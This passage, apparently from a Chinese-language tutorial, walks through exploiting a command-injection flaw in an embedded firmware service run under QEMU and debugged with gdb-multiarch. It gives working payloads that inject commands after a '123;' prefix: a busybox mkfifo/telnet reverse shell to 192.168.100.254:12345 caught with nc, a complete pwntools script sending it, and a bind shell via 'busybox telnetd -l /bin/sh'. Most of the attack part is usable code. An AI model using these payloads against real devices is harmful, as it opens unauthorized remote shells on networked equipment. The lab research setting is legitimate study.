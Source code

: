 出现如图所示的界面：

[![](https://p1.ssl.qhimg.com/t01e6d82ded48504585.png)](https://p1.ssl.qhimg.com/t01e6d82ded48504585.png)

说明gdbserver成功attach上，然后我们在本机运行：

```
gdb-multiarch
target remote 192.168.100.3:6666
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t010094c1a89c0af41d.png)

然后我们接着下断点到0x400CF0，执行在本地调通的脚本，将`ip`和`port`修改一下，看system执行的命令,

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01371b9864841732ba.png)

可以看到确实是执行的我们输入的命令，但是在qemu端提示：bash not found，说明本地并没有bash指令。

4.我们接下来修改一下利用脚本，主要目的是利用固件中已有的指令去反弹shell。我们首先用busybox查看一下支持哪些指令，如下：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0198eeca9d204bead9.png)

可以看到这个里面用到了telnet，telnetd，mkfifo等指令，所以我们可以利用`telnet+mkfifo`来反弹一个shell或者用`telnetd`，下面将分别讲解

1）反弹shell

我们将利用代码改为

```
payload = "123;TF=/tmp/sh;busybox mkfifo $TF;busybox telnet 192.168.100.254 12345 0&lt;$TF|/bin/sh 1&gt;$TF"
```

这样的话，我们在本地运行`nc -lvp 12345`，这样的话，我们就能接收到反弹回来的shell，完整的利用代码如下：

```
from pwn import *
p = remote("192.168.100.3",9999)
p.recvuntil("Send me a string:")
payload = "123;TF=/tmp/sh;busybox mkfifo $TF;busybox telnet 192.168.100.254 12345 0&lt;$TF|/bin/sh 1&gt;$TF"
p.sendline(payload)
p.interactive()
```

2）正向监听端口

我们将代码改为

```
payload = "123;TF=/tmp/sh;busybox mkfifo $TF;busybox telnetd -l /bin/sh"
```

